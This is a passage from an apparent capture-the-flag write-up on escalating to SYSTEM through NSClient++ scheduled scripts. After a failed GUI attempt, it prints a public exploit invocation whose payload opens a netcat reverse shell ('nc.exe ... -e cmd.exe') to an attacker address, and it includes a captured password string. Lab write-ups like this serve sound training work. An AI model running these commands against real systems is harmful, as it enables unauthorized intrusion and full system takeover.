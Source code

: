 ```
ew2x6SsGTxjRwXOT
```

In the NSClient++ GUI, first I’ll associate my script with a command by clicking Settings > external scripts > scripts, and then “+Add new”.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904135732.png)

When I hit “Add”, `df` now shows up under scripts above, and the Changes tab turns red. I can go to Changes and save this to the disk config. This will add the following to the config file:

Now under scheduler > schedules I’ll hit the “+Add new” button. I need to add two things here. First, I’ll edit the section to add a new name, and then give it an interval of 10 seconds:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904140038.png)

After hitting Add, I’ll change edit the form, and then Add again:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904140142.png)

Now `df` shows up as a scheduled task, and I can see it has both key/values:

Tried but still fail 

### Easy to system

Found another poc
https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation?source=post_page-----b4a26c27708c---------------------------------------
Just add parameters:

```
python3 exploit.py "C:\Users\Nadine\nc.exe 10.10.14.8 443 -e cmd.exe" https://127.0.0.1:8443 ew2x6SsGTxjRwXOT
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904141128.png)

and we got system shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904141324.png)

Now grab root flag
